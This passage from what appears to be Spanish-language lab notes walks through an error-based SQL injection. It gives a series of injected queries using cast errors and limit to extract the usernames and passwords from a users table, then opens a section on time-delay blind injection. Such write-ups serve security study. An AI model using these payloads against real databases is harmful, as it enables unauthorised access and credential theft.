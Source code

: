> Para solucionar este error podemos poner un limit, de esta forma conseguimos que en el mensaje de error salga el output de la consulta ejecutada.

![](/img2/Pasted%20image%2020250709125914.png)

- Injection

```sql
SELECT * FROM tracking WHERE id  = 'TvXMzKlqgSfVoLVu'order by 1-- -'
```

```sql
SELECT * FROM tracking WHERE id  = ''or 1=cast((select 'test') as int)-- -'
```

```sql
SELECT * FROM tracking WHERE id  = ''or 1=cast((select username from users) as int)-- -'
```

```sql
SELECT * FROM tracking WHERE id  = ''or 1=cast((select username from users limit 1) as int)-- -'
```

```sql
SELECT * FROM tracking WHERE id  = ''or 1=cast((select password from users limit 1) as int)-- -'
```

## Inyección SQL ciega mediante retrasos temporales || Blind SQL injection with time delays
